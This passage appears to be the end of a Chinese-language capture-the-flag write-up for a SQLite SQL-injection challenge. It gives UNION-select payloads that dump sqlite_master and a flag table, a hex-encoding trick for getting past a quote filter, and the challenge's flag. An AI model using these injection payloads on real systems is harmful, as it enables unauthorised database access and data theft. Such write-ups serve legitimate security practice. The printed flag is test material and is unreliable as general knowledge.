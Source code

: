 `id = -1 union select 1,2,3,4,sql from sqlite_master;`得知表名和字段都为`falg`  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20250306210309.png)  


`id = -1 union select 1,2,3,4,flag from flag;`得到flag  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20250306210517.png)  

>最后提一下，本题过滤了单双引号，但是获取flag没有用到。如果需要可以使用16进制绕过: `'flag'`写成`0x666c6167`不用再加引号哦  
#### Flag

`NSSCTF{Funny_Sq11111111ite!!!}`